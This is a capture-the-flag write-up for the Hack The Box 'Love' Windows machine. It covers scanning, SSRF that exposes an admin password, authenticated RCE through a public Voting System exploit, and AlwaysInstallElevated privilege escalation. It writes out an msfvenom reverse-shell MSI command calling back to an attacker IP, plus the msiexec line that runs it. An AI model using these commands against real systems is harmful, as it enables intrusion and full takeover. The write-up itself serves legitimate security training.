 ```yaml
---
title: "[EASY] HTB-Love"
draft: false
tags:
  - htb
  - windows
  - ssrf
  - voting-system
  - alwaysinstallelevated
  - msfvenom
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/Love.png)



## Information Gathering
### Rustscan

Rustscan finds bunch of ports open. Some of them I am not sure what they are used for, I would have to look in to it:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/love]
└─$ rustscan --addresses 10.10.10.239 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
<snip>
Host is up, received syn-ack (0.37s latency).
Scanned at 2024-04-24 13:04:31 EDT for 3s

PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
443/tcp   open  https        syn-ack
445/tcp   open  microsoft-ds syn-ack
3306/tcp  open  mysql        syn-ack
5000/tcp  open  upnp         syn-ack
5040/tcp  open  unknown      syn-ack
5985/tcp  open  wsman        syn-ack
5986/tcp  open  wsmans       syn-ack
7680/tcp  open  pando-pub    syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49667/tcp open  unknown      syn-ack
49668/tcp open  unknown      syn-ack
49669/tcp open  unknown      syn-ack
49670/tcp open  unknown      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.68 seconds
```

## Enumeration
### SMB - TCP 445

Null login is not allowed:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image.png)


### HTTP(s) - TCP 80 & 443

Website shows a login portal for Voting System:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-1.png)

Searchsploit finds several exploits for Voting System. I will look more into this later:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-3.png)

After directory bruteforcing and enumeration, I found several more paths on the website:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-4.png)

`/admin` is definetly an interesting path.


HTTPs shows forbidden page:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-2.png)

However I can still obtain subdomain information from it:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-5.png)

## staging.love.htb - TCP 80

`http://staging.love.htb` shows a different page from Voting System:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-7.png)

Clicking on **Demo** directs me to **beta.php** where I can submit file url for scanning:

`http://staging.love.htb/beta.php`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-8.png)

I will try making connection to my local Kali machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-9.png)

You can see that connection is being made from the website:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-10.png)

I tried uploading webshell but it won't work since the webapp seems to be not reading the php script:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-11.png)

## Shell as phoebe
### SSRF

Instead of uploading web shell, I wil try accessing internal service running on port 5000:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-12.png)

I can access port 5000 through SSRF and read password for the admin: **@LoveIsInTheAir!!!!**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-13.png)

Weirdly, using the credential won't work on login portal:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-14.png)

However, through `/admin` page, I can successfully sign-in:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-15.png)


### Authenticated RCE

Voting system 1.0 seems to be vulnerable to Authenticated RCE. 


After downloading [payload](https://www.exploit-db.com/exploits/49445), I will edit my setting as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-16.png)

I will also edit the vulnerable to url as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-17.png)

With the netcat listener running, I will run the payload:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-20.png)

On my netcat listener, I have reverse shell spawned as **phoebe**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-18.png)


## Privesc: phoebe to Administrator
### AlwaysInstallElevated

After starting smber server through `impacket-smbserver share $(pwd) -smb2support` on the directory where there is winpeas.exe, I will download winpeas to target machine through `copy \\10.10.14.21\share\winpeas.ps1 winpeas.ps1`.

WinPEAS finds AlwaysInstallElevated running:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-21.png)

AlwaysInstallElevated is a setting in the Windows registry that, when enabled, allows non-administrative users to install programs with elevated privileges. This setting is intended for system administrators who want to ensure that certain programs are always installed with administrative rights, regardless of the user's permissions.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-22.png)

I will create payload that will make a reverse shell connection using msfvenom:

`msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=1338 -f msi -o rev_shell.msi`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-24.png)

I will the run the payload msi with netcat listener running on my local Kali machine:

`msiexec /quiet /qn /i rev_shell.msi`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-25.png)

Now I have a shell as the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-23.png)

## References
- https://www.exploit-db.com/exploits/49445
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
- https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/